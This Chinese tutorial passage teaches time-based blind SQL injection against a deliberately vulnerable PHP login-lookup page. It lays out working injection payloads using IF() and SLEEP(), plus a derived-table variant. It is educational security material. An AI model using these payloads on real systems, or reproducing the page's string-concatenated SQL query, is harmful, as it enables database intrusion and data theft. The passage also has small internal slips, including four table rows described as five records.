时间盲注不仅依靠`LENGTH()`、`SUBSTR()`、`ASCII()`等函数，还需要`IF()`以及`SLEEP()`，通过页面响应时间的不同来判断后台命令的执行情况

| 函数    | 使用方法                                     | 参数                                                         | 含义                                             |
| ------- | -------------------------------------------- | ------------------------------------------------------------ | ------------------------------------------------ |
| IF()    | IF(condition, value_if_true, value_if_false) | condition：判断条件<br />value_if_true：条件为TRUE时执行的语句<br />value_if_false：条件为FALSE时执行的语句 | 进行判断，若为真，执行第二参数，为假执行第三参数 |
| SLEEP() | SLEEP(seconds)                               | seconds：秒数                                                | 延迟指定时间，单位为秒                           |

先来看看`IF()`与`SLEEP()`的实际使用

```sql
SELECT IF(SUBSTR((DATABASE()),1,1)>'a',SLEEP(3),1);
```

> 

使用`IF()`判断`SUBSTR()`的结果是否为真，当结果为真时，使用`SLEEP()`延迟三秒，结果为假时，返回`1`。因此在进行第一次查询时，结果为真，查询时间为`3.01`秒，并且返回结果`0`，第二次查询时，结果为假，直接返回`1`

从上面的内容来看，时间盲注的实质其实与布尔盲注相同，都是通过构造布尔值，改变后台的响应结果来判断语句的执行情况，只是相对于布尔盲注来说，某些情况下页面对于查询结果的变化不明显，或者完全没有变化，无法通过观察前端来判断执行情况，因此我们使用`SLEEP()`函数，引入时间的概念，让不同的响应时间成为不同响应内容的反馈

假设有以下数据表

`users`

| id   | username | password |
| ---- | -------- | -------- |
| 1    | admin    | admin    |
| 2    | root     | root     |
| 3    | kiiz     | xunlin   |
| 4    | ocean    | mingxi   |

同时还有一个查询页面

`blind-time.php`

```php
<!doctype html>
<html lang="zh-cn">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<h2>查询测试</h2>
<form method="post" action="blind-time.php">
    用户名：
    <input type="text" name="username">
    <input type="submit" value="查询">
</form>
</body>
</html>

<?php
error_reporting(0);

if (isset($_POST['username'])) {
    $username = $_POST['username'];
    $conn = new mysqli("localhost", "root", "root", "test");
    $sql = "SELECT * FROM users WHERE username = '$username'";
    $start = microtime(true);
    $result = $conn->query($sql);
    $end = microtime(true);
    $executionTime = $end - $start;
    echo '查询完成！' . "<br>";
    echo "查询用时: " . number_format($executionTime, 1) . " 秒";
}
```

从后端代码就能够看出，这是一道仅能使用时间盲注的题目，因为无论查询结果为何，前端永远只显示`查询完成！`

###### 判断漏洞类型

仅从判断漏洞类型开始，时间盲注就与其他注入类有较大差异，因为我们不再能从页面回显来判断，而是通过我们自己构造的第三维变量`时间`

那么该如何开始呢？想要清楚注入的漏洞类型，实际是在了解用哪种方式可以截断后台的SQL语句，如下

```sql
SELECT 1 FROM users WHERE username='1' AND SELECT 1#'
```


我们传入单引号，后台的单引号被闭合，SQL语句被截断，因此我们能够确定漏洞类型为单引号注入

同样的

```php
SELECT 1 FROM users WHERE username='1" AND 1=1#'
```

当我们传入双引号，单引号无法被闭合，数据库将`1" AND 1=1#`直接作为`id`字段值，因此页面无内容

由上文可知，当引号被闭合时，后方的语句能正常执行，若我们将刚才的

```sql
SELECT 1 FROM users WHERE username='1' AND SELECT 1#'
```

更改为

```sql
SELECT 1 FROM users WHERE username='1' OR IF(1=1,SLEEP(2),1)#'
```

是否就可以作为漏洞类型的判断依据，因为只有正确闭合了引号，后台才会执行`SLEEP(2)`

回到题目上，先进行一次正常查询

> 

然后我们传入`0' OR IF(1=1,SLEEP(1),1)#`

> 

很巧妙地发现，查询用时增加了，但我们传入的是`SLEEP(1)`，为什么是5秒？

因为在SQL中，`WHERE`子句对每条查询记录都生效，在`users`表中，共有五条记录，每条记录都会执行一次`SLEEP(1)`

```sql
SELECT *
FROM users
WHERE IF(1=1,SLEEP(1),1);
```

> 

为了避免表中记录过多导致长时间等待的情况，可以使用派生表来限制查询次数

```sql
0' OR (SELECT 1 FROM (SELECT IF(1=1,SLEEP(1),1)) AS a)#
```

> 
